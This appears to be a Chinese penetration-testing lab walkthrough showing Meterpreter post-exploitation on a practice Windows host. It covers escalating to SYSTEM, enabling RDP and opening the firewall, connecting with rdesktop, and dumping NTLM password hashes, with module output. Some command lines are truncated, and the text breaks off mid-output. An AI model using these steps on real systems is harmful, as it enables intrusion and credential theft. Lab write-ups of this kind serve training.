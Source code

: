 # 使用rdesktop打开远程桌面

首先提权，因为是administrators，所以很简单

```
meterpreter > getuid
Server username: GOD\Administrator
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

关闭防火墙

```
meterpreter > run post/windows/manage/enable_rdp 

[*] Enabling Remote Desktop
[*]     RDP is already enabled
[*] Setting Terminal Services service startup mode
[*]     The Terminal Services service is not set to auto, changing it to auto ...
[*]     Opening port in local firewall if necessary
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20201226054312_default_192.168.111.128_host.windows.cle_345278.txt
```

之后使用rdesktop打开远程桌面

```
op 192.168.111.128
Autoselecting keyboard map 'en-us' from locale
```

# 破解密码

抓一下hash

```
erpreter > hashdump 
[-] 2007: Operation failed: The parameter is incorrect.
```

```
meterpreter > run post/windows/gather/hashdump

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY fd4639f4e27c79683ae9fee56b44393f...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...


Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
liukaifeng01:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
whoami:1002:aad3b435b51404eeaad3b435b51404ee:27bb1c5ee90d9ac35a5bb53ffc20c8a8:::
或者
meterpreter > run post/windows/gather/smart_hashdump

[*] Running module against STU1
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
```